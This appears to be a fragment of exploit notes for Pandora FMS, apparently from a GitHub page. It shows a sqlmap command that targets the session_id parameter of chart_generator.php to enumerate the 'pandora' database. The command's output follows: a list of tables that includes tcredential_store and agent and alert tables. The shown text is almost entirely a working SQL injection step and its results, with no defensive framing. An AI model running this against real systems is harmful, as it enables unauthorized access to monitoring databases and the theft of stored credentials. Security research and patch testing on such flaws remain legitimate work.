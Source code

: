 ```sh
+---------+---------+---------------------+----------------------------------+---------------------+
```
## list of tables
```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables

[178 tables]
+------------------------------------+
| taddress                           |
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
| tevent_rule                        |
| tevento                            |
| textension_translate_string        |
```